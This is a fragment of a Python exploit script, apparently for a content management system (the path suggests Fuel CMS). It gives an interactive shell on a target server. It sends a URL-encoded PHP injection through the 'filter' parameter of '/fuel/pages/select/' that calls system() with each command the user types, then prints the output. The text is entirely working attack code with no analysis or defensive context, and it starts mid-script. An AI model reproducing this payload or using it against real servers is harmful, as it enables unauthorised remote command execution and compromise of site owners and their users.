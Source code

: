 try:
   r = requests.get(url)
   if r.status_code == 200:
       print(Style.BRIGHT+Fore.GREEN+"[+]Connecting..."+Style.RESET_ALL)


except requests.ConnectionError:
    print(Style.BRIGHT+Fore.RED+"Can't connect to url"+Style.RESET_ALL)
    sys.exit()

while True:
	cmd = input(Style.BRIGHT+Fore.YELLOW+"Enter Command $"+Style.RESET_ALL)

	main_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+quote(cmd)+"%27%29%2b%27"

	r = requests.get(main_url)

	#<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

	output = r.text.split('<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">')
	print(output[0])
	if cmd == "exit":
		break